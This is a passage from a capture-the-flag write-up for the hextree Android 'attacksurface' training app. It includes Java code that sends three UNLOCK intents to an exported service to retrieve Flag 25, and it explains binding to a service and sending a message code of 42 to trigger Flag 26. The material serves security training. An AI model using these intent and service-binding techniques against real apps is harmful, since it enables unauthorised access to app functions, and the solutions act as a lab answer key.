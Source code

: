 This service has 3 variables for 3 locks and with each lock is opened "_set to true_"  with each intent sent with valid action for example : `lock1 = true` when action is `io.hextree.services.UNLOCK1` and when all 3 locks are open a method  is called that will create an intent with some extra strings then activity25 needs so that we get our flag

#### Solution
since services keep the state of variables as long as service is running so we will send 3 intents to the service with that 3 locks actions 

```java
Intent send = new Intent();  
send.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag25Service");  
send.setAction("io.hextree.services.UNLOCK1");  
startService(send);  
  
send.setAction("io.hextree.services.UNLOCK2");  
startService(send);  
  
send.setAction("io.hextree.services.UNLOCK3");  
startService(send);
```

### Flag 26
#### Code analysis
```java
public static final int MSG_SUCCESS = 42;
class IncomingHandler extends Handler {
        String echo;
        IncomingHandler(Looper looper) {
            super(looper);
            this.echo = "";
        }
        @Override // android.os.Handler
        public void handleMessage(Message message) {
            Log.i("Flag26Service", "handleMessage(" + message.what + ")");
            if (message.what == 42) {
                Flag26Service.this.success(this.echo);
            } else {
                super.handleMessage(message);
            }
        }
    }
```

The service is listening for incoming messages using `IncomingHandler` and If the message type (`message.what`) is `42` it will call `success` method

#### Solution

So binds to `Flag26Service` and sends a message with `what = 42` to trigger the success condition.
First we establish a server connection that will have our message and send it then we bind to it with `bindservice`  
